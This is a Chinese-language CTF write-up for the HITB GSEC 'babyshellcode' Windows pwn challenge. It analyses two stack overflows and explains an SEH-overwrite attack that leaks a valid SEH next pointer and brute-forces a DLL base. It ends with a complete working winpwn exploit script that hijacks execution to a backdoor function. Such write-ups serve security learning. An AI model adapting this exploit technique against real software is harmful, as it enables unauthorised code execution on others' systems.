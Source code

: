 # Windows pwn 栈题入门

## HITB GSEC babyshellcode

刚刚迈入windows大门，所以参考了下之前windows栈题目的wp自己动手调试一下。

远古栈溢出题目,先看看保护：

```bash
λ winchecksec babyshellcode.exe
Results for: babyshellcode.exe
Dynamic Base    : "Present"
ASLR            : "Present"
High Entropy VA : "NotPresent"
Force Integrity : "NotPresent"
Isolation       : "Present"
NX              : "Present"
SEH             : "Present"
CFG             : "Present"
RFG             : "NotPresent"
SafeSEH         : "NotPresent"
GS              : "Present"
Authenticode    : "NotPresent"
.NET            : "NotPresent"


C:\Users\secundanirn\Desktop\ctf\pwn\babyshellcode
λ winchecksec scmgr.dll
Results for: scmgr.dll
Dynamic Base    : "Present"
ASLR            : "Present"
High Entropy VA : "NotPresent"
Force Integrity : "NotPresent"
Isolation       : "Present"
NX              : "Present"
SEH             : "Present"
CFG             : "NotPresent"
RFG             : "NotPresent"
SafeSEH         : "NotPresent"
GS              : "Present"
Authenticode    : "NotPresent"
.NET            : "NotPresent"
```

这里winchecksec脚本并没有显示出safeSEH，不知道为啥。

### 分析程序

这个程序的逻辑还是很简单的，主要实现的功能就是运行用户输入的shellcode，其中shellcode存储在scmgr的堆数据段。

但是在运行前，程序会先将shellcode的第一个dword赋值成-1，也就是FFFFFFFFh，所以直接执行会抛出一个illegal instruction的异常。

同时这个函数是有漏洞的，在memcpy时没有检查len的大小，会造成一个栈溢出。

```c
if ( shellcode )
  {
    if ( guard )
    {
      v3 = (_DWORD *)shellcode->sc_addr;
      memcpy(Src, v3, shellcode->len);          // overflow
      *v3 = -1;                                 // sc err
    }
    ((void (__thiscall *)(int))shellcode->sc_addr)(shellcode->sc_addr);
    if ( guard )
      memcpy((void *)(*(&shellcode_list + index))->sc_addr, Src, (*(&shellcode_list + index))->len);
    result = 0;
  }
```

然后瞅一眼汇编，发现这个函数注册了SEH相关结构体

```assembly
.text:00401350                 push    ebp
.text:00401351                 mov     ebp, esp
.text:00401353                 push    0FFFFFFFEh
.text:00401355                 push    offset stru_403960
.text:0040135A                 push    offset __except_handler4
.text:0040135F                 mov     eax, large fs:0
.text:00401365                 push    eax
.text:00401366                 sub     esp, 70h
.text:00401369                 mov     eax, ___security_cookie
.text:0040136E                 xor     [ebp+ms_exc.registration.ScopeTable], eax
.text:00401371                 xor     eax, ebp
.text:00401373                 mov     [ebp+var_1C], eax
.text:00401376                 push    ebx
.text:00401377                 push    esi
.text:00401378                 push    edi
.text:00401379                 push    eax
.text:0040137A                 lea     eax, [ebp+ms_exc.registration]
.text:0040137D                 mov     large fs:0, eax
.text:00401383                 mov     [ebp+ms_exc.old_esp], esp
```

所以这个异常会被抛出给SEH来处理。

同时在main函数中也有一个栈溢出：

```c
 nameindex = 0;
  v4 = getchar();
  do
  {
    if ( v4 == 10 )
      break;
    name[nameindex++] = v4;
    v4 = getchar();
  }
  while ( nameindex != 300 );                   // ovflow
```

这里这个name存储在栈上，长度为16，很明显的栈溢出。

### 漏洞利用思路

既然有了栈溢出，那么直接覆盖返回地址不就行了？想的美，windows的栈和linux的栈差的很多，同时这个程序有GS保护，所以覆盖返回地址的方式不可行。

![windows栈帧](/Users/secundanirn/Desktop/学习相关/windows栈帧.jpg)

所以思路是覆盖SEH的handler指针，触发异常，劫持到目标地址上。

那么目标地址在哪里呢？

分析的时候就可以发现，在scmgrdll中内置了后门函数，同时scmgr没有开启safe SEH检查，直接跳到这里即可。

但是通过观察栈帧可以发现，在handler之前，有个next的指针，这里safe SEH和SEHOP会检查SEH链的完整性，所以说必须要泄漏一个合法的next。

那么现在万事具备只欠东风，只需要知道一个合法的SEH地址以及SCMGR中的函数地址即可完成利用

### 泄漏地址

利用main函数中name的栈溢出漏洞，可以泄漏出一个合法的SEH地址信息。

在setguard函数中，存在一个比较复杂的加密函数，该加密函数不可逆，其加密的第一个字段的值为scmgr基地址，所以可以通过正向爆破的方式猜出来实际地址信息。

### exp

```python
from winpwn import *
context.log_level = 'debug'
context.debugger = 'windbg'
io = process('.\\babyshellcode.exe')
def choice(c):
	io.recvuntil('Option:')
	io.sendline(str(c))
def add(sz,name,des,sc):
	choice(1)
	io.recvuntil('size:')
	io.sendline(str(sz))
	io.recvuntil('name:')
	io.sendline(name)
	io.recvuntil('tion:')
	io.sendline(des)
	io.recvuntil('shellcode:')
	io.sendline(sc)
def show():
	choice(2)
def delete(idx):
	choice(3)
	io.recvuntil('index:')
	io.sendline(str(idx))
def run(idx):
	choice(4)
	io.recvuntil('index:')
	io.sendline(str(idx))
def set(option):
    io.recvuntil('Option:\r\n')
    io.sendline('5')
    io.recvuntil('Option:\r\n')
    io.sendline(str(option))
    io.recvuntil('is ')
    check = io.recvline().split("-")[5][:8]
    check = int(check, 16)
    print("check: " + hex(check))
    get_shell = get_scmgr_base(check)
    return get_shell
def p():
	windbg.attach(io)
	pause()
def get_scmgr_base(check):
    for base in range(0x60000000, 0x80000000, 0x10000):
        #print(base)
        init_scmgr = base + 0x1090
        g_table = [init_scmgr]
        for i in range(31):
            init_scmgr = (init_scmgr * 69069) & 0xffffffff
            g_table.append(init_scmgr)
        g_index = 0
        v0 = (g_index-1) & 0x1f
        v2 = g_table[(g_index + 3) & 0x1f] ^ g_table[g_index] ^ (g_table[(g_index + 3) & 0x1f] >> 8)
        v1 = g_table[v0]
        v3 = g_table[(g_index + 10) & 0x1F]
        v4 = g_table[(g_index - 8) & 0x1F] ^ v3 ^ ((v3 ^ (32 * g_table[(g_index - 8) & 0x1F])) << 14)
        v4 = v4 & 0xffffffff
        g_table[g_index] = v2 ^ v4
        g_table[v0] = (v1 ^ v2 ^ v4 ^ ((v2 ^ (16 * (v1 ^ 4 * v4))) << 7)) & 0xffffffff
        g_index = (g_index - 1) & 0x1F
        if(g_table[g_index] == check):
            #print("base: " + hex(base))
            return base + 0x1100
def exp():
	p()
	io.recvuntil('at ')
	scbase = int(io.recv(8),16)
	name = 'a'*80
	io.recvuntil('name')
	io.sendline(name)
	io.recvuntil('a'*80)
	seh_next = u32(io.recv(4).ljust(4, '\x00'))
	seh_next = seh_next & 0xffffffff
	

	sys = set(1)
	print("scheap   --------------> " + hex(scbase))
	print("seh_next --------------> " + hex(seh_next))
	print("sys		--------------> " + hex(sys))
	io.sendline('aaaa')
	payload = 'a'*0x70 + p32(seh_next) + p32(sys) + p32(0)
	add(len(payload),'ssss','ssss',payload)
	run(0)
	io.interactive()
if __name__ == '__main__':
	exp()

```

